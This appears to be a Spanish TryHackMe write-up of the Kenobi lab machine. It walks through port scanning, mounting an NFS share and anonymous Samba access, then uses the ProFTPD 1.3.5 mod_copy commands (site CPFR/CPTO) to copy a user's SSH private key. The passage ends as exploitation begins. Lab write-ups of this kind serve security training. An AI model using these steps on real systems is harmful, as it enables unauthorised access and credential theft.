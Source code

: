 ```yaml
---
title: Kenobi
description: Write Up de Kenobi TryHackMe
published: true
date: 2025-05-12T14:54:50.266Z
tags: write up
editor: markdown
dateCreated: 2025-05-06T15:51:34.674Z
---
```


# Kenobi
Bienvenido a la máquina Kenobi, hecha en GitHub.

## Exploración
Lo primero que vamos a hacer es un escaneo de puertos para saber que servicios tiene disponibles.
10.10.218.69
```
nmap -sT -Pn -sV {IP}
```

IMAGEN 1

Como podemos observar tenemos:
- Un servicio FTP
- Un servicio SSH
- Un servicio HTTP
- Servicio de Samba
- Puero 2049

Lo más interesante que podemos observar, es la página web, el servidor ftp y el puerto 2049. Teniendo el puerto 2049, con un NFS, podemos intentar montar el disco que hay disponible.

Para ello deberemos saber que puerto hay disponible, eso lo hacemos mediante:
```
showmount -e {IP}
```

Una vez que vamos a importar, creamos una carpeta similar y lo montamos:
```
mkdir -p tmp/var
sudo mount -t nfs {IP}:/var tmp/var
```

IMAGEN 2

Ahora entramos en la carpeta y listamos lo que hay

IMAGEN 3


Investigaremos esto en profundidad mas adelante, vamos a intentar conectarnos como anonymous en el servidor FTP

IMAGEN 4

Sin embargo, podemos observar que no hemos puesto la credecial correcta. 

Vamos a investigar con respecto a la página web.

IMAGEN 5

Solo tenemos una imagen, por lo que investigaremos el último servicio que nos queda que es samba.

Vamos a ejecutar el siguiente comando:
```
smbclient -L //{IP} -N
```

Con este comando vamos a ejecutar una lectura principal de usuarios y servicios activos, donde podemos ver que hay una cuenta llamada anonymous 

IMAGEN 6

Ahora vamos a intentar conectarnos como ese usuario:
```
smbclient //{IP}/anonymous
```
Nos pedirá una contraseña, sin embargo está vez si que nos permite el acceso con las credenciales predeterminadas (anonymous/anonymous).

Haremos una lectura de los archivos con un ls, y nos descargaremos el fichero que haya.

```
ls
get log.txt
```

IMAGEN 7

Una vez descargado, vamos a leer el log, que parece ser todos los logs, tanto de samba, como de FTP y SSH.

IMAGEN 8

De este archivo no tenemos mucha mas información importante, sin embargo podriamos intentar hacer un exploit de ftp, ya que sabemos que usa proftpd y con el escaneo de nmap, podemos descubirr que es versión 1.3.5

IMAGEN 9

Ahora vamos a hacer lo siguiente
```
nc {IP} 21
```

Con esto nos conectamos al seridor FTP, sin embargo por esta versión hay una vulnerabilidad de copia de archivos sin estar verificado, por lo que podemos continuar con:
```
site CPFR /home/kenobi/.ssh/id_rsa
site CPTO {lugar donde dejamos el archiv}
```

IMAGEN 10

> Tener en cuenta el directorio donde estamos
{.is-warning}


Debido a que ya tenemos el rsa, podemos conectarnos.

## Explotación

Copiaremos el archivo 